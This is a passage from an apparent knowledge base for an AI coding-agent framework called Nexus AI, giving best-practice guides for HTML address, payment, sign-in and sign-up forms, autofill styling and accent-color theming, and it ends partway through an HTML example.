

## Components

### 1. Nexus Orchestrator (`NexusEngine.js`)
The central brain that coordinates the flow between phases. It ensures that data from the Audit phase is correctly passed to Planning, and that Execution only happens after approval.

### 2. Agent Layer
A collection of markdown files in `agent/` that define the persona, responsibilities, and guardrails for different AI agents (e.g., Architect, Engineer, QA).

### 3. Skill Layer
Technical standards and "best practice" snippets in `skill/` that guide the agents during the Execution phase.

### 4. Persistence Layer
Folders for `audit`, `planning`, `records`, and `knowledge` that ensure every step of the process is documented and persisted for long-term project memory.

---

## Ecosystem Integration

Nexus AI is designed to be highly portable and integrable with existing codebases.

- **External Pipeline**: The system intelligently detects and manages project-specific documentation and local AI "brains" inside the project root.
- **Deep Recaps**: Detailed documentation on how the engine interacts with external environments:
    - [Internal Pipeline Recap](NEXUS_INTERNAL_PIPELINE_RECAP.md)
    - [External Pipeline Recap](NEXUS_EXTERNAL_PIPELINE_RECAP.md)


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_AUTOFILL-ADDRESS-FORM.MD

# Build an address form that follows best practice
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Create a form that makes it as easy as possible for users to enter address data on desktop and mobile. Ensure the form makes the most of built-in browser features for autofill, validation and data entry constraints.

## How to implement

Outlined below are the most important guidelines for building successful address forms.

### Use meaningful, valid HTML

Make the most of the elements and attributes built for creating forms:

-   `<form>`, `<input>`, `<label>`, and `<button>`
-   `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.

### Use the <label> element to label form fields for data entry

To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.

### Make the most of HTML attributes

Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and enable basic built-in validation by the browser.

Always use `type="email"` for email addresses and `type="tel"` for phone numbers.

```html
<!-- type="email"/"tel" gives mobile users the right keyboard and enables built-in validation -->
<input type="email" id="email" name="email" autocomplete="email" required>
<input type="tel" id="phone" name="phone" autocomplete="tel">
```

Every `<input>`, `<select>`, and `<textarea>` element SHOULD have an appropriate `autocomplete` attribute, to improve accessibility and help users avoid re-entering data.

### Make buttons helpful

Use `<button>` for buttons. You can also use `<input type="submit">`, but don't use a `div` or some other random element acting as a button. Button elements provide accessible behaviour, built-in form submission functionality, and can easily be styled.

Give each form submit button a value that says what it does. For each step towards checkout, use a descriptive call-to-action that shows progress and makes the next step obvious. For example, label the submit button on your delivery address form **Proceed to Payment** rather than **Continue** or **Save**.

### Use a single name input where possible

Allow your users to enter their name using a single input, unless you have a good reason for separately storing given names, family names, honorifics, or other name parts. Using a single name input makes forms less complex, enables cut-and-paste, and makes autofill simpler.

Allow international names. For validation, avoid using regular expressions that only match Latin characters. Latin-only excludes users with names or addresses that include characters that aren't in the Latin alphabet. Allow Unicode letter matching instead—and ensure your backend supports Unicode securely as both input and output. Unicode in regular expressions is well supported by modern browsers.

### Allow for a variety of address formats

When building an address form, be aware of the variety of address formats, even within a single country. Do not make assumptions about "normal" addresses.

Use a single `<textarea>` element for the street address if possible.

```html
<!-- textarea handles multi-line international address formats that split inputs can't accommodate -->
<textarea id="address" name="address" autocomplete="street-address" required></textarea>
```

This is the most flexible option for a variety of local and international address formats.

### Help save users from accidentally missing data fields

Add the `required` attribute to mandatory fields.

```html
<input type="text" id="city" name="city" autocomplete="address-level2" required>
```

### Fallback strategies

:autofill has limited availability.
Supported by: Chrome 110 (Feb 2023), Edge 110 (Feb 2023), and Safari 15 (Sep 2021).
Unsupported in: Firefox.

Autofill is a progressive enhancement. In browsers that do not support autofill, users will simply need to manually enter their address details. The semantic HTML constraints (such as `type`, `inputmode`, and `required`) will still function appropriately as standard form validation.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_AUTOFILL-HIGHLIGHT-INPUTS.MD

# Use the CSS :autofill pseudo-class to highlight form fields that have been autofilled by the browser and not edited by the user
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use the CSS `:autofill` to highlight fields that have (or have not been) autofilled, to help guide the user to successful form completion.

## How to implement

To highlight a form field that has been autofilled by the browser (and not edited by the user) add a selector to your CSS using the `:autofill` class. This can be used for an `<input>`, `<select>`, or `<textarea>` element.

When styling autofilled states, you must adhere to accessibility best practices:
- **Multiple State Indicators**: Do not rely on border color alone to indicate the autofilled state. Use multiple indicators such as border thickness and custom background shading to ensure the state is perceivable.
- **Preserve Focus Indicators**: Never remove focus outlines (`outline: none`) without providing a clear, high-contrast replacement for keyboard users.

The following example uses `:autofill` to set a custom border and background, along with explicit focus styles:

```css
input:autofill,
input:-webkit-autofill {
  /* Multiple indicators: use both a distinct border and background color via box-shadow to avoid color-only state */
  border: 2px solid #2e7d32;
  box-shadow: 0 0 0 100vmax #e8f5e9 inset;
}

/* MANDATORY: Always provide an explicit focus indicator when styling autofilled states */
input:autofill:focus-visible,
input:-webkit-autofill:focus-visible {
  outline: 3px solid #000;
  outline-offset: 2px;
}
```

As shown in this example, the `box-shadow` property is used to customize the background, since `background-color` cannot be overridden directly on autofilled fields.

## Use the correct CSS pseudo-class name

**Do not** use `:auto-fill`: this is incorrect.

MANDATORY: Use `:autofill` as this is the correct pseudo-class name.

### Fallback strategies

:autofill has limited availability.
Supported by: Chrome 110 (Feb 2023), Edge 110 (Feb 2023), and Safari 15 (Sep 2021).
Unsupported in: Firefox.

The `:autofill` pseudo-class is a progressive enhancement. In browsers that do not support it, the form will still function normally, but the inputs will simply not receive the custom autofill highlighting. Users will still be able to successfully complete the form. No additional JavaScript fallback should be used.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_AUTOFILL-PAYMENT-FORM.MD

# Build a payment form that follows best practice
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Payment forms are the single most critical part of the checkout process. Poor payment form design is a common cause of shopping cart abandonment.

Create a form that makes it as easy as possible for users to enter payment details on desktop and mobile. Ensure the form makes the most of built-in browser features for autofill, validation and data entry constraints.

## How to implement

Outlined below are the most important guidelines for building successful payment forms.

### Use meaningful, valid HTML

Make the most of the elements and attributes built for creating forms:

-   `<form>`, `<input>`, `<label>`, and `<button>`
-   `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.

### Use the <label> element to label form fields for data entry

To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.

### Make the most of HTML attributes

Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and enable basic built-in validation by the browser.

Always use `type="email"` for email addresses and `type="tel"` for phone numbers.

```html
<!-- type="email"/"tel" gives mobile users the right keyboard and enables built-in validation -->
<input type="email" id="email" name="email" autocomplete="email" required>
<input type="tel" id="phone" name="phone" autocomplete="tel">
```

Every `<input>`, `<select>`, and `<textarea>` element SHOULD have an appropriate `autocomplete` attribute, to improve accessibility and help users avoid re-entering data.

### Make buttons helpful

Use `<button>` for buttons. You can also use `<input type="submit">`, but don't use a `div` or some other random element acting as a button. Button elements provide accessible behaviour, built-in form submission functionality, and can easily be styled.

Give each form submit button a value that says what it does. For each step towards checkout, use a descriptive call-to-action that shows progress and makes the next step obvious. For example, label the submit button on your delivery address form **Proceed to Payment** rather than **Continue** or **Save**.

### Use a single name input where possible

Allow your users to enter their name using a single input, unless you have a good reason for separately storing given names, family names, honorifics, or other name parts. Using a single name input makes forms less complex, enables cut-and-paste, and makes autofill simpler.

Allow international names. For validation, avoid using regular expressions that only match Latin characters. Latin-only excludes users with names or addresses that include characters that aren't in the Latin alphabet. Allow Unicode letter matching instead—and ensure your backend supports Unicode securely as both input and output. Unicode in regular expressions is well supported by modern browsers.

### Allow for a variety of address formats

When adding form fields for an address in a payment form, be aware of the variety of address formats, even within a single country. Do not make assumptions about "normal" addresses.

If possible within your data requirements, consider using a single `<textarea>` element for address. This is the most flexible option for a variety of local and international address formats.

### Use autocomplete for billing address

By default, set the billing address to be the same as the delivery address. Reduce visual clutter by providing a link to edit the billing address (or use summary and details elements) rather than displaying the billing address in a form.

Use appropriate autocomplete values for the billing address, just as you do for shipping address, so the user doesn't have to enter data more than once. Add a prefix word to autocomplete attributes if you have different values for inputs with the same name in different sections. For example:

```
<input autocomplete="shipping address-line-1" ...>
...
<input autocomplete="billing address-line-1" ...>
```

### Show checkout progress

For each step towards payment, use page headings and descriptive button values that make it clear what needs to be done now, and what checkout step is next.

Use the `enterkeyhint` attribute on form inputs to set the mobile keyboard enter key label. For example, use `enterkeyhint="previous"` and `enterkeyhint="next"` within a multi-page form, `enterkeyhint="done"` for the final input in the form, and `enterkeyhint="search"` for a search input.

### Help users avoid re-entering payment data

Make sure to add appropriate `autocomplete` values in payment card forms. Without autocomplete, users may keep a physical record of payment card details or store them insecurely.

```html
<!-- cc-number tells autofill this is a card number, not a generic number field -->
<!-- inputmode="numeric" gives a numeric keyboard without the increment/decrement spinner -->
<!-- DO NOT use type="number" — it adds increment/decrement controls and strips leading zeros -->
<input id="cc-number" name="cc-number" type="text" autocomplete="cc-number"
       inputmode="numeric" maxlength="19" pattern="[\d ]{13,19}" required>

<!-- cc-name autofills with the name exactly as it appears on the card; Unicode pattern allows international names -->
<input id="cc-name" name="cc-name" type="text" autocomplete="cc-name"
       maxlength="50" pattern="[\p{L} \-\.]+" required>

<!-- cc-exp autofills the full expiry date as MM/YY -->
<!-- MANDATORY: Place format hints above the input so autocomplete popovers or virtual keyboards do not obscure them during editing -->
<span id="exp-hint" class="hint">Format: MM/YY</span>
<input id="cc-exp" name="cc-exp" type="text" autocomplete="cc-exp"
       aria-describedby="exp-hint" maxlength="5" required>

<!-- cc-csc autofills the security code; DO NOT use type="password" here -->
<input id="cc-csc" name="cc-csc" type="text" autocomplete="cc-csc"
       inputmode="numeric" maxlength="4" pattern="[0-9]{3,4}" required>
```

### Use a single input for payment card and phone numbers

For payment card and phone numbers use a single input: don't split the number into parts. That makes it easier for users to enter data, makes validation simpler, and enables browsers to autofill. Consider doing the same for other numeric data such as PIN and bank codes.

### Validate carefully

You should validate data entry both in realtime and before form submission. One way to do this is by adding a pattern attribute to a payment card input. If the user attempts to submit the payment form with an invalid value, the browser displays a warning message and sets focus on the input.

However, your pattern regular expression must be flexible enough to handle the range of payment card number lengths: from 14 digits (or possibly less) to 20 (or more). Card security codes (also known as CSC, CVC, CVV, or other names) consist of 3 or 4 digits.

Allow users to include spaces when they're entering a new payment card number, since this is how numbers are displayed on physical cards. That's friendlier to the user (you won't have to tell them "they did something wrong"), less likely to interrupt conversion flow, and it's straightforward to remove spaces in numbers before processing.

### Help save users from accidentally missing data fields

Add the `required` attribute to mandatory fields. Modern browsers automatically prompt and set focus for missing data.

## Fallback strategies

Baseline status for enterkeyhint: Widely available. It's been Baseline since 2021-11-02.
Supported by: Chrome 77 (Sep 2019), Edge 79 (Jan 2020), Firefox 94 (Nov 2021), Safari 13.1 (Mar 2020), and Safari iOS 13.4 (Mar 2020).
Baseline status for Email, telephone, and URL <input> types: Widely available. It's been Baseline since 2015-07-29.
Supported by: Chrome 5 (May 2010), Edge 12 (Jul 2015), Firefox 4 (Mar 2011), Safari 5 (Jun 2010), and Safari iOS 3 (Jun 2009).
Baseline status for inputmode: Widely available. It's been Baseline since 2021-12-07.
Supported by: Chrome 66 (Apr 2018), Edge 79 (Jan 2020), Firefox 95 (Dec 2021), Safari 12.1 (Mar 2019), and Safari iOS 12.2 (Mar 2019).

Autofill is a progressive enhancement. In browsers that do not support autofill, users will simply need to manually enter their payment details. The semantic HTML constraints (such as `type`, `inputmode`, `pattern`, and `required`) will still function appropriately to validate user input and provide the correct virtual keyboards.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, saas]

### 📘 KNOWLEDGE: NEXUS_AUTOFILL-SIGN-IN-FORM.MD

# Build a sign-in form that follows best practice
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use cross-platform browser features to build sign-in forms that are secure, accessible and easy to use.

If users ever need to sign in to your site, then good sign-in form design is critical. This is especially true for people on poor connections, on mobile, in a hurry, or under stress. Poorly designed sign-in forms get high bounce rates. Each bounce could mean a lost customer and a disgruntled user—not just a missed sign-in opportunity.

## How to implement

Outlined below are the most important guidelines for building successful sign-in forms.

### Use meaningful, valid HTML

Make the most of the elements and attributes built for creating forms:

- `<form>`, `<input>`, `<label>`, and `<button>`
- `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.

### Use the <label> element to label form fields for data entry

To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.

### Make the most of HTML attributes

Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and enable basic built-in validation by the browser.

Always use `type="email"` for email addresses and `type="tel"` for phone numbers.

Every `<input>`, `<select>`, and `<textarea>` element SHOULD have an appropriate `autocomplete` attribute, to improve accessibility and help users avoid re-entering data.

### Make buttons helpful

Use `<button>` for buttons. You can also use `<input type="submit">`, but don't use a `div` or some other random element acting as a button. Button elements provide accessible behaviour, built-in form submission functionality, and can easily be styled.

Give each form submit button a value that says what it does. Use a clear, recognizable label. For example, use **Sign In** rather than **Continue** or **Submit**.

### Use a single name input where possible

Allow your users to enter their name using a single input, unless you have a good reason for separately storing given names, family names, honorifics, or other name parts. Using a single name input makes forms less complex, enables cut-and-paste, and makes autofill simpler.

Allow international names. For validation, avoid using regular expressions that only match Latin characters. Latin-only excludes users with names or addresses that include characters that aren't in the Latin alphabet. Allow Unicode letter matching instead—and ensure your backend supports Unicode securely as both input and output. Unicode in regular expressions is well supported by modern browsers.

### Show sign-in progress

For each step towards sign-in, use page headings and descriptive button values that make it clear what needs to be done now, and what the next step is.

Use the `enterkeyhint` attribute on form inputs to set the mobile keyboard enter key label. For example, use `enterkeyhint="previous"` and `enterkeyhint="next"` within a multi-page form, `enterkeyhint="done"` for the final input in the form, and `enterkeyhint="search"` for a search input.

### Help users avoid re-entering sign-in data

Make sure to add appropriate `autocomplete` values in sign-in forms.

This enables browsers to help users by securely storing sign-in details and correctly entering form data. Without autocomplete, users may be more likely to keep a physical record of sign-in details, or store sign-in data insecurely on their device.

### Validate carefully

Validate data entry both in realtime and before form submission. Use `type="email"` for email inputs — the browser will validate the format automatically. Add the `required` attribute to mandatory fields to prevent empty submissions.

### Put sign-in in its own <form> element

Always use the `<form>` element when you're getting users to enter data

Don't wrap inputs in a `<div>` and handle input data submission purely with JavaScript. It's generally better to use a `<form>` element. This makes your site accessible to screenreaders and other assistive devices, enables a range of built-in browser features, makes it simpler to build basic functional sign-in for older browsers, and can still work even if JavaScript fails.

### Don't double up inputs

Some sites force users to enter emails or passwords twice. That might reduce errors for a few users, but causes extra work for all users, and increases abandonment rates. Asking twice also makes no sense where browsers autofill email addresses or suggest strong passwords. It's better to enable users to confirm their email address (you'll need to do that anyway) and make it easy for them to reset their password if necessary.

### Keep passwords private—but enable users to see them if they want

Passwords inputs should have `type="password"` to hide password text and help the browser understand that the input is for passwords. (Note that browsers use a variety of techniques to understand input roles and decide whether or not to offer to save passwords.)

You should add a **Show password** toggle to enable users to check the text they've entered—and don't forget to add a **Forgot password** link.

### Give mobile users the right keyboard

Use `<input type="email">` to give mobile users an appropriate keyboard and enable basic built-in email address validation by the browser… no JavaScript required!

If you need to use a telephone number instead of an email address, `<input type="tel">` enables a telephone keypad on mobile. You can also use the `inputmode` attribute where necessary: `inputmode="numeric"` is ideal for PIN numbers.

### Prevent mobile keyboard from obstructing the Sign in button

If you're not careful, mobile keyboards may cover your form or, worse, partially obstruct the Sign in button. Users may give up before realizing what has happened.

Where possible, avoid this by displaying only the email (or phone) and password inputs and Sign in button at the top of your sign-in page. Put other content underneath.

### Help users to avoid re-entering data

You can help browsers store data correctly and autofill inputs, so users don't have to remember to enter email and password values. This is particularly important on mobile, and crucial for email inputs, which get high abandonment rates. There are two parts to this:

1.  The `autocomplete`, `name`, `id`, and `type` attributes help browsers understand the role of inputs in order to store data that can later be used for autofill. To allow data to be stored for autofill, modern browsers also require inputs to have a stable `name` or `id` value (not randomly generated on each page load or site deployment), and to be in a `<form>` element with a `submit` button.
1.  The `autocomplete` attribute helps browsers correctly autofill inputs using stored data.

For email inputs use `autocomplete="username"`, since `username` is recognized by password managers in modern browsers—even though you should use `type="email"` and you may want to use `id="email"` and `name="email"`. For password inputs, use the appropriate `autocomplete` and `id` values to help browsers differentiate between new and current passwords.

### Use autocomplete="current-password" and id="current-password" for an existing password

MANDATORY: Use `autocomplete="current-password"` and `id="current-password"` for the password input in a sign-in form. This tells the browser that you want it to use the current password that it has stored for the site.

For a sign-in form:

```
<input type="password" autocomplete="current-password" id="current-password" …>
```

### Enable the browser to suggest a strong password

Modern browsers use heuristics to decide when to show the password manager UI and suggest a strong password.

Built-in browser password generators mean users and developers don't need to work out what a "strong password" is. Since browsers can securely store passwords and autofill them as necessary, there's no need for users to remember or enter passwords. Encouraging users to take advantage of built-in browser password generators also means they're more likely to use a unique, strong password on your site, and less likely to reuse a password that could be compromised elsewhere.

### Help save users from accidentally missing inputs

MANDATORY: Add the `required` attribute to both email and password fields. Modern browsers automatically prompt and set focus for missing data.

```html
<input type="email" id="email" name="email" autocomplete="username" required>
<input type="password" id="password" name="password" autocomplete="current-password" required>
```

### Allow password pasting

Some sites don't allow text to be pasted into password inputs.

Disallowing password pasting annoys users, encourages passwords that are memorable (and therefore may be easier to compromise) and, according to organizations such as the UK National Cyber Security Centre, may actually reduce security. Users only become aware that pasting is disallowed after they try to paste their password, so disallowing password pasting doesn't avoid clipboard vulnerabilities.

### Fallback strategies

Baseline status for Email, telephone, and URL <input> types: Widely available. It's been Baseline since 2015-07-29.
Supported by: Chrome 5 (May 2010), Edge 12 (Jul 2015), Firefox 4 (Mar 2011), Safari 5 (Jun 2010), and Safari iOS 3 (Jun 2009).
Baseline status for inputmode: Widely available. It's been Baseline since 2021-12-07.
Supported by: Chrome 66 (Apr 2018), Edge 79 (Jan 2020), Firefox 95 (Dec 2021), Safari 12.1 (Mar 2019), and Safari iOS 12.2 (Mar 2019).

Autofill is a progressive enhancement. In browsers that do not support autofill, users will simply need to manually enter their sign-in credentials. The semantic HTML constraints (such as `type`, `inputmode`, and `required`) will still function appropriately to validate user input and provide the correct virtual keyboards.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_AUTOFILL-SIGN-UP-FORM.MD

# Build a sign-up form that follows best practice
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use cross-platform browser features to build sign-up forms that are secure, accessible and easy to use.

If users ever need to sign up to your site, then good sign-up form design is critical. This is especially true for people on poor connections, on mobile, in a hurry, or under stress. Poorly designed sign-up forms get high bounce rates. Each bounce could mean a lost customer and a disgruntled user—not just a missed sign-up opportunity.

## How to implement

Outlined below are the most important guidelines for building successful sign-up forms.

### Use meaningful, valid HTML

Make the most of the elements and attributes built for creating forms:

-   `<form>`, `<input>`, `<label>`, and `<button>`
-   `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.

### Use the <label> element to label form fields for data entry

To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.

### Make the most of HTML attributes

Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and enable basic built-in validation by the browser.

Always use `type="email"` for email addresses and `type="tel"` for phone numbers.

Every `<input>`, `<select>`, and `<textarea>` element SHOULD have an appropriate `autocomplete` attribute, to improve accessibility and help users avoid re-entering data.

### Make buttons helpful

Use `<button>` for buttons. You can also use `<input type="submit">`, but don't use a `div` or some other random element acting as a button. Button elements provide accessible behaviour, built-in form submission functionality, and can easily be styled.

Give each form submit button a value that says what it does. Use a clear, recognizable label. For example, use **Create account** or **Sign up** rather than **Continue** or **Submit**.

### Use a single name input where possible

Allow your users to enter their name using a single input, unless you have a good reason for separately storing given names, family names, honorifics, or other name parts. Using a single name input makes forms less complex, enables cut-and-paste, and makes autofill simpler.

Allow international names. For validation, avoid using regular expressions that only match Latin characters. Latin-only excludes users with names or addresses that include characters that aren't in the Latin alphabet. Allow Unicode letter matching instead—and ensure your backend supports Unicode securely as both input and output. Unicode in regular expressions is well supported by modern browsers.

### Show sign-up progress

For each step towards sign-up, use page headings and descriptive button values that make it clear what needs to be done now, and what the next step is.

Use the `enterkeyhint` attribute on form inputs to set the mobile keyboard enter key label. For example, use `enterkeyhint="previous"` and `enterkeyhint="next"` within a multi-page form, `enterkeyhint="done"` for the final input in the form, and `enterkeyhint="search"` for a search input.

### Help users avoid re-entering sign-up data

Make sure to add appropriate `autocomplete` values in sign-up forms.

This enables browsers to help users by securely storing sign-up details and correctly entering form data. Without autocomplete, users may be more likely to keep a physical record of sign-up details, or store sign-up data insecurely on their device.

### Validate carefully

Validate data entry both in realtime and before form submission. Use `type="email"` for email inputs — the browser will validate the format automatically. For passwords, use a `pattern` attribute to enforce strength requirements and provide clear error messages when validation fails. Add the `required` attribute to mandatory fields to prevent empty submissions.

### Put sign-up in its own <form> element

Always use the `<form>` element when you're getting users to enter data

Don't wrap inputs in a `<div>` and handle input data submission purely with JavaScript. It's generally better to use a `<form>` element. This makes your site accessible to screenreaders and other assistive devices, enables a range of built-in browser features, makes it simpler to build basic functional sign-up for older browsers, and can still work even if JavaScript fails.

### Don't double up inputs

Some sites force users to enter emails or passwords twice. That might reduce errors for a few users, but causes extra work for all users, and increases abandonment rates. Asking twice also makes no sense where browsers autofill email addresses or suggest strong passwords. It's better to enable users to confirm their email address (you'll need to do that anyway) and make it easy for them to reset their password if necessary.

### Keep passwords private—but enable users to see them if they want

Passwords inputs should have `type="password"` to hide password text and help the browser understand that the input is for passwords. (Note that browsers use a variety of techniques to understand input roles and decide whether or not to offer to save passwords.)

You should add a **Show password** toggle to enable users to check the text they've entered—and don't forget to add a **Forgot password** link.

### Give mobile users the right keyboard

Use `<input type="email">` to give mobile users an appropriate keyboard and enable basic built-in email address validation by the browser… no JavaScript required!

If you need to use a telephone number instead of an email address, `<input type="tel">` enables a telephone keypad on mobile. You can also use the `inputmode` attribute where necessary: `inputmode="numeric"` is ideal for PIN numbers.

### Prevent mobile keyboard from obstructing the Sign up button

If you're not careful, mobile keyboards may cover your form or, worse, partially obstruct the Sign up button. Users may give up before realizing what has happened.

Where possible, avoid this by displaying only the email (or phone) and password inputs and Sign up button at the top of your sign-up page. Put other content underneath.

### Help users to avoid re-entering data

You can help browsers store data correctly and autofill inputs, so users don't have to remember to enter email and password values. This is particularly important on mobile, and crucial for email inputs, which get high abandonment rates. There are two parts to this:

1.  The `autocomplete`, `name`, `id`, and `type` attributes help browsers understand the role of inputs in order to store data that can later be used for autofill. To allow data to be stored for autofill, modern browsers also require inputs to have a stable `name` or `id` value (not randomly generated on each page load or site deployment), and to be in a `<form>` element with a `submit` button.
1.  The `autocomplete` attribute helps browsers correctly autofill inputs using stored data.

For email inputs use `autocomplete="username"`, since `username` is recognized by password managers in modern browsers—even though you should use `type="email"` and you may want to use `id="email"` and `name="email"`. For password inputs, use the appropriate `autocomplete` and `id` values to help browsers differentiate between new and current passwords.

### Use autocomplete="new-password" and id="new-password" for a new password

MANDATORY: For a sign-up form, use `autocomplete="new-password"`.

```html
<!-- new-password prevents password managers from auto-filling an existing password into this field -->
<input type="password" id="new-password" name="new-password" autocomplete="new-password" required>
```

### Enable the browser to suggest a strong password

Modern browsers use heuristics to decide when to show the password manager UI and suggest a strong password.

Built-in browser password generators mean users and developers don't need to work out what a "strong password" is. Since browsers can securely store passwords and autofill them as necessary, there's no need for users to remember or enter passwords. Encouraging users to take advantage of built-in browser password generators also means they're more likely to use a unique, strong password on your site, and less likely to reuse a password that could be compromised elsewhere.

### Help save users from accidentally missing inputs

Add the `required` attribute to both email and password fields. Modern browsers automatically prompt and set focus for missing data.

### Allow password pasting

Some sites don't allow text to be pasted into password inputs.

Disallowing password pasting annoys users, encourages passwords that are memorable (and therefore may be easier to compromise) and, according to organizations such as the UK National Cyber Security Centre, may actually reduce security. Users only become aware that pasting is disallowed after they try to paste their password, so disallowing password pasting doesn't avoid clipboard vulnerabilities.

### Offer third-party login

Many users prefer to sign in to websites using an email address and password sign-up form. However, you should also enable users to sign in using a third-party identity provider, also known as federated login.

This approach has several advantages. For users who create an account using federated login, you don't need to ask for, communicate, or store passwords.

You may also be able to access additional verified profile information from federated login, such as an email address—which means the user doesn't have to enter that data and you don't need to do the verification yourself. Federated login can also make it much easier for users when they get a new device.

### Take care with usernames

Don't insist on a username unless (or until) you need one. Enable users to sign up and sign in with only an email address (or telephone number) and password—or federated login if they prefer. Don't force them to choose and remember a username.

If your site does require usernames, don't impose unreasonable rules on them, and don't stop users from updating their username. On your backend you should generate a unique ID for every user account, not an identifier based on personal data such as username.

Also make sure to use `autocomplete="username"` for usernames.

### Fallback strategies

Baseline status for Email, telephone, and URL <input> types: Widely available. It's been Baseline since 2015-07-29.
Supported by: Chrome 5 (May 2010), Edge 12 (Jul 2015), Firefox 4 (Mar 2011), Safari 5 (Jun 2010), and Safari iOS 3 (Jun 2009).
Baseline status for inputmode: Widely available. It's been Baseline since 2021-12-07.
Supported by: Chrome 66 (Apr 2018), Edge 79 (Jan 2020), Firefox 95 (Dec 2021), Safari 12.1 (Mar 2019), and Safari iOS 12.2 (Mar 2019).

Autofill is a progressive enhancement. In browsers that do not support autofill, users will simply need to manually enter their sign-up credentials. The semantic HTML constraints (such as `type`, `inputmode`, and `required`) will still function appropriately to validate user input and provide the correct virtual keyboards.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_BRAND-CONSISTENT-FORMS.MD

# Brand-Consistent Forms
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Customizing standard HTML form elements like checkboxes and radio buttons has historically been difficult. Developers often faced a choice between using the browser defaults or building custom components from scratch. Building custom controls is time-consuming and can easily lead to accessibility issues or missing states (like the indeterminate state for checkboxes).

The CSS property `accent-color` provides a simple way to bring your brand color to built-in HTML form inputs with a single line of CSS, without sacrificing accessibility or built-in browser features.

## How to Implement

To apply your brand color to form controls:

1. **Identify your brand color:** Choose a color that represents your brand.
2. **Apply the `accent-color` property:** Add `accent-color` to the element or a container element (like `body` or a specific form) in your CSS.
3. **Support Dark Mode (Optional but Recommended):** Use `color-scheme` to let the browser know your site supports dark mode, and adjust the `accent-color` if necessary for better contrast.

## Example Code: Brand-Consistent Form Controls

```css
:root {
  --brand-color: #6200ee;
}

/* Apply accent-color to the body or a specific container */
body {
  accent-color: var(--brand-color);
}

/* Optional: Adjust for dark mode if needed */
@media (prefers-color-scheme: dark) {
  :root {
    --brand-color: #bb86fc; /* A lighter shade for dark mode */
  }
}
```

```html
<form>
  <!-- Checkbox -->
  <label for="subscribe">
    <input type="checkbox" id="subscribe" checked>
    Subscribe to newsletter
  </label>

  <!-- Radio Buttons -->
  <label for="plan-monthly">
